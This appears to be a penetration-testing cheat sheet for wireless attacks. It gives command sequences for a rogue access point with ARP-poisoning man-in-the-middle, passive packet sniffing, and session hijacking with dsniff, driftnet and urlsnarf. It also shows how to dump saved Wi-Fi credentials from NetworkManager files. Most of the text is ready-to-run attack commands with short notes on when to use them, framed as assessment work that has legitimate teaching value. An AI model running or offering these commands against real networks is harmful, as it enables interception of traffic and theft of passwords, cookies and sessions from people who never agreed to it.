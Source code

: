 ## Man-in-the-Middle attack
```bash
Description:
This attack sets up a rogue access point with the same SSID as a legitimate one,
tricking clients into connecting. Once connected, the attacker can intercept, modify,
or redirect traffic. Use during security assessments to evaluate a network's resistance
to rogue APs and traffic interception risks. It demonstrates the risks of trusting
unsecured or spoofed access points and the importance of certificate pinning, VPNs,
and user awareness.
airmon-ng start wlan0                                                # Enable monitor mode on the wlan0 interface
airbase-ng -e RogueAP -c [channel] mon0                              # Create a fake AP named "RogueAP" on the specified channel
ifconfig at0 up                                                      # Bring up the virtual interface created by airbase-ng
dhcpd at0                                                            # Start DHCP server to assign IPs to clients connecting to at0
ifconfig at0 192.168.1.1 netmask 255.255.255.0                       # Set a static IP on the fake interface
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1      # Route traffic through the fake gateway
echo 1 > /proc/sys/net/ipv4/ip_forward                               # Enable IP forwarding to relay traffic
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE                 # Masquerade traffic from at0 to external network via eth0
ettercap -T -q -i at0 -M arp:remote // //                            # Launch ARP poisoning to intercept and sniff network traffic


```
## Wireless Eavesdropping
## Description:
## This passive attack involves capturing wireless packets in the air for later analysis.
## When to Use:
## Use during recon or to analyze open or poorly encrypted networks without disrupting them.
## Why:
## It reveals sensitive data or credentials transmitted in plaintext, misconfigured encryption, and device behavior.

```bash
airmon-ng start wlan0          # Enable monitor mode on the wireless card
airodump-ng mon0              # View available wireless networks and clients
wireshark &                   # Launch Wireshark for real-time packet capture and analysis
# Then apply display filters like:
# http                     - To view unencrypted web traffic
# tcp.port==80             - To isolate standard HTTP port traffic
# wlan.fc.type_subtype==0x08 - To view Beacon frames


```
## Session Hijacking over Wireless
```bash
Description:
This attack captures session tokens, cookies, or credentials from unencrypted network traffic to hijack user sessions.

When to Use:
When users connect to insecure networks (e.g., public Wi-Fi), to demonstrate risks of non-HTTPS services.

Why:
To stress the importance of HTTPS, secure cookie flags, and encrypted transport layers.
airmon-ng start wlan0        # Enable monitor mode
airodump-ng mon0             # Discover nearby wireless traffic
driftnet -i mon0             # Intercept and display images being transmitted
dsniff -i mon0               # Capture passwords, session cookies, and credentials from sniffed traffic
urlsnarf -i mon0             # Log all URLs accessed by devices on the network


```
## Enumerating wireless security profiles
## Description:
## This involves identifying saved or auto-connect wireless profiles on a system, including previously connected networks and their credentials.

## When to Use:
## When analyzing client device configurations or performing post-exploitation data gathering.

## Why:
## It shows what networks a device connects to and can expose credentials or hint at physical locations.
```bash
nmcli dev wifi list                                      # List available networks and their security types
cat /etc/NetworkManager/system-connections/*             # Display saved wireless profiles and potential credentials

```
